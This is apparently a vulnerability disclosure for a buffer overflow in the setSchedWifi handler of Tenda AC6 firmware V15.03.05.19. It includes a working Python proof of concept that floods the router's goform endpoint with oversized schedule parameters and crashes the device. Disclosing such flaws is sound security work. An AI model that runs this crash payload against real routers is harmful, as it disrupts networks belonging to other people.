



## Buffer Overflow Vulnerability in Tenda AC6 Firmware Version V15.03.05.19

The `setSchedWifi` function within the Tenda AC6 router firmware V15.03.05.19 contains a critical buffer overflow vulnerability.  
Exploitation leverages two distinct `strcpy` operations in the affected code, enabling attackers to trigger Denial-of-Service (DoS) conditions or achieve service disruption through application crash.




### poc
```python
import requests

def generate_overflow_data():
    return b"XiDP" * 0x100 

def execute_overflow(url, data):
    payload = {'schedStartTime': data, 'schedWifiEnable': 0, 'schedEndTime': data}

    for _ in range(3):
        response = requests.get(url, params=payload)
    
    print(f"HTTP Status: {response.status_code}\nResponse Content: {response.text}")

if __name__ == "__main__":
    TARGET = "http://192.168.52.138/goform/openSchedWifi"
    execute_overflow(TARGET, generate_overflow_data())
```

Achieved Result: Segmentation Fault

